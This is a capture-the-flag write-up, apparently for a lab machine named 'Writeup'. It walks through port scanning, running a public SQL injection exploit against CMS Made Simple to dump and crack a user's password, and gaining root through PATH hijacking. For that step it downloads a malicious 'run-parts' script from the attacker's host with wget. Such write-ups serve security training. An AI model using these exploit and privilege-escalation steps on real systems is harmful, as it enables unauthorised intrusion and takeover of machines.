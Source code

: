 # Writeup

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.95.203
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 11:25 EDT
Nmap scan report for 10.129.95.203
Host is up (0.14s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Port 80 --> SQL Injection

Port 80 just hosts this image:

<figure><img src="../../../.gitbook/assets/image (582).png" alt=""><figcaption></figcaption></figure>

This thing says that it is banning IPs that send too many requests, so a directory scan might be counterproductive. Instead, based on the text, going to `/writeup` works.&#x20;

<figure><img src="../../../.gitbook/assets/image (571).png" alt=""><figcaption></figcaption></figure>

Viewing the page source reveals that this is using CMS Made Simple:

<figure><img src="../../../.gitbook/assets/image (583).png" alt=""><figcaption></figcaption></figure>

There are loads of exploits for this software.

```
$ searchsploit made simple
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
CMS Made Simple (CMSMS) Showtime2 - File Upload Remote Cod | php/remote/46627.rb
CMS Made Simple 0.10 - 'index.php' Cross-Site Scripting    | php/webapps/26298.txt
CMS Made Simple 0.10 - 'Lang.php' Remote File Inclusion    | php/webapps/26217.html
CMS Made Simple 1.0.2 - 'SearchInput' Cross-Site Scripting | php/webapps/29272.txt
CMS Made Simple 1.0.5 - 'Stylesheet.php' SQL Injection     | php/webapps/29941.txt
CMS Made Simple 1.11.10 - Multiple Cross-Site Scripting Vu | php/webapps/32668.txt
CMS Made Simple 1.11.9 - Multiple Vulnerabilities          | php/webapps/43889.txt
CMS Made Simple 1.2 - Remote Code Execution                | php/webapps/4442.txt
CMS Made Simple 1.2.2 Module TinyMCE - SQL Injection       | php/webapps/4810.txt
CMS Made Simple 1.2.4 Module FileManager - Arbitrary File  | php/webapps/5600.php
CMS Made Simple 1.4.1 - Local File Inclusion               | php/webapps/7285.txt
CMS Made Simple 1.6.2 - Local File Disclosure              | php/webapps/9407.txt
CMS Made Simple 1.6.6 - Local File Inclusion / Cross-Site  | php/webapps/33643.txt
CMS Made Simple 1.6.6 - Multiple Vulnerabilities           | php/webapps/11424.txt
CMS Made Simple 1.7 - Cross-Site Request Forgery           | php/webapps/12009.html
CMS Made Simple 1.8 - 'default_cms_lang' Local File Inclus | php/webapps/34299.py
CMS Made Simple 1.x - Cross-Site Scripting / Cross-Site Re | php/webapps/34068.html
CMS Made Simple 2.1.6 - 'cntnt01detailtemplate' Server-Sid | php/webapps/48944.py
CMS Made Simple 2.1.6 - Multiple Vulnerabilities           | php/webapps/41997.txt
CMS Made Simple 2.1.6 - Remote Code Execution              | php/webapps/44192.txt
CMS Made Simple 2.2.14 - Arbitrary File Upload (Authentica | php/webapps/48779.py
CMS Made Simple 2.2.14 - Authenticated Arbitrary File Uplo | php/webapps/48742.txt
CMS Made Simple 2.2.14 - Persistent Cross-Site Scripting ( | php/webapps/48851.txt
CMS Made Simple 2.2.15 - 'title' Cross-Site Scripting (XSS | php/webapps/49793.txt
CMS Made Simple 2.2.15 - RCE (Authenticated)               | php/webapps/49345.txt
CMS Made Simple 2.2.15 - Stored Cross-Site Scripting via S | php/webapps/49199.txt
CMS Made Simple 2.2.5 - (Authenticated) Remote Code Execut | php/webapps/44976.py
CMS Made Simple 2.2.7 - (Authenticated) Remote Code Execut | php/webapps/45793.py
CMS Made Simple < 1.12.1 / < 2.1.3 - Web Server Cache Pois | php/webapps/39760.txt
CMS Made Simple < 2.2.10 - SQL Injection                   | php/webapps/46635.py
CMS Made Simple Module Antz Toolkit 1.02 - Arbitrary File  | php/webapps/34300.py
CMS Made Simple Module Download Manager 1.4.1 - Arbitrary  | php/webapps/34298.py
CMS Made Simple Showtime2 Module 3.6.2 - (Authenticated) A | php/webapps/46546.py
----------------------------------------------------------- ---------------------------------
```

I tried a few of them, and only the SQL Injection one worked.&#x20;

```
$ python3 46635.py -u http://10.129.95.203/writeup --crack -w /usr/share/wordlists/rockyou.txt
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
```

With this, we can `ssh` in as `jkr`.&#x20;

<figure><img src="../../../.gitbook/assets/image (565).png" alt=""><figcaption></figcaption></figure>

Grab the user flag.

## Privilege Escalation

### PATH Hijacking

I ran a LinPEAS scan to enumerate for me, which found that we are part of the `staff` group that can write to certain directories:

```
[+] Interesting GROUP writable files (not in Home) (max 500)
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files
Group staff:
/usr/local/bin
/usr/local/games
/usr/local/sbin
<TRUNCATED>
```

Having write access to these directories means that we can do PATH hijacking by creating an executable in those files with the same name as processes run by `root`. As such, I downloaded `pspy64` onto the machine to see if `root` was running any processes without full paths.&#x20;

When run, I saw these processes that were run:

```
2023/05/06 05:02:16 CMD: UID=0    PID=12903  | run-parts --lsbsysinit /etc/update-motd.d 
2023/05/06 05:02:16 CMD: UID=0    PID=12904  | /bin/sh /etc/update-motd.d/10-uname
```

The `run-parts` command did not have a full path, meaning that we can exploit this. We can create a basic `bash` script that makes `/bin/bash` an SUID binary. Then we can download it into the `/usr/local/bin` directory:

```
jkr@writeup:/usr/local/bin$ wget 10.10.14.13:8000/run-parts
--2023-05-06 05:03:51--  http://10.10.14.13:8000/run-parts
Connecting to 10.10.14.13:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 32 [application/octet-stream]
Saving to: ‘run-parts’

run-parts               100%[============================>]      32  --.-KB/s    in 0s      

2023-05-06 05:03:51 (6.62 MB/s) - ‘run-parts’ saved [32/32]

jkr@writeup:/usr/local/bin$ chmod +x run-parts
```

Afterwards, we just need to `ssh` back into the machine to execute it and get a `root` shell.

<figure><img src="../../../.gitbook/assets/image (588).png" alt=""><figcaption></figcaption></figure>
